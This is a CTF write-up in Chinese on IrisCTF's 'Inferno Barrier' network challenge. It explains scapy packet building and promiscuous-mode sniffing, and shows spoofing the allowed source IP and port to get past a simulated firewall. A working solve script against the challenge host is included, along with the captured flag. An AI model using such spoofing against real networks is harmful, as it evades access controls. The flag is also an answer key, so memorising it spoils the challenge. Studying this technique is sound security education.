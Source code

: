 > 这里是赛后做出来的一些题目

## network - Inferno Barrier

赛后研究了一下`scapy`构造报文，主要看文档就行了，几个cheatsheet

- 可以用`/`把不同级别的包叠起来，比如`Ether()/IP()/TCP()/b"raw data"`
- 包转为字节：`.build()`
- 字节转包：需要知道是哪一级别，直接用对应的构造函数就行，可以识别出部分子级别。

这个题提供了一个网络模拟器，可以让我们直接以`layer 3`网络层发包（以base64指定）。网络层指的是`IP`这一层，如果不确定可以先拿到一个报文，然后尝试各个报文的构造函数。

这个题会告诉我们IP地址，是`192.168.1.0/24`网段随机一个。选项里可以把混杂模式（promiscuous mode）打开，这个是可以获取经过设备的所有网络包，包括目标地址不指向自己的，就是用来抓包的。

打开混杂模式后，我们隔一段时间（大约2sec）会拿到一段固定的报文，解码：
```
<IP  version=4 ihl=5 tos=0x0 len=129 id=1 flags= frag=0 ttl=64 proto=udp chksum=0xf70c src=192.168.1.10 dst=192.168.1.4 |<UDP  sport=4545 dport=10343 len=109 chksum=0x9cd4 |<Raw  load=b"Announcement: error: no announcement configured.\nRun 'select (generic|date|time|flag)' to configure.\n" |>>>
```

原来是`192.168.1.4:10343 <= 192.168.1.10:4545`的UDP报文，这是一段广播，看起来回复`select flag`就能让它广播flag。

我们尝试发送一个从自己端口到`192.168.1.4:4545`的回复UDP包，但是`recv`时提示被防火墙`<Firewall: (drop) 192.168.1.20:13131 -> 192.168.1.10:4545 due to policy: allow-192-168-1-4-only>`拦截

然而我们可以直接把自己的源和端口都指定为`192.168.1.4:10343`，看起来既然我们是同一个网段，防火墙完全无法区分这个UDP包是不是真的从那个IP发出来。发包后，过一段时间（大约7秒），混杂模式接受的广播内容会变化，就是flag。

```
<IP  version=4 ihl=5 tos=0x0 len=97 id=1 flags= frag=0 ttl=64 proto=udp chksum=0xf72c src=192.168.1.10 dst=192.168.1.4 |<UDP  sport=4545 dport=10343 len=77 chksum=0x18b3 |<Raw  load=b'Announcement: irisctf{udp_1p_sp00fing_is_tr1vial_but_un1dir3ct10nal}\n' |>>>
```

当然可以想象，我们是不会收到我们自己发送报文的回复的，回复仍然是发给`192.168.1.10`，所以这个是`unidirectional`的

```py
from scapy.all import IP, UDP, TCP
import base64
from pwn import remote, context, sleep

# context.log_level = 'debug'
conn = remote('inferno-barrier.chal.irisc.tf', 10500)

my_ip = conn.recvline_contains(b"Your IP", keepends=False).decode().split()[-1]

conn.sendlineafter(b"> ", f"prom on".encode())

sleep(2)


conn.sendlineafter(b"> ", f"recv".encode())

conn.recvline_contains(b"Retrieving packet from receive buffer")
line = conn.recvline(keepends=False)
if b"buffer is empty" not in line:
    print(repr(IP(base64.b64decode(line))))

packet = IP(dst="192.168.1.10", src="192.168.1.4") / UDP(dport=4545, sport=10343) / b"select flag"
# packet = IP(dst="192.168.1.10", src=my_ip) / UDP(dport=4545, sport=13131) / b"select flag"
conn.sendlineafter(b'> ', f"emit {base64.b64encode(packet.build()).decode()}".encode())


for _ in range(20):
    sleep(1)

    conn.sendlineafter(b"> ", f"recv".encode())
```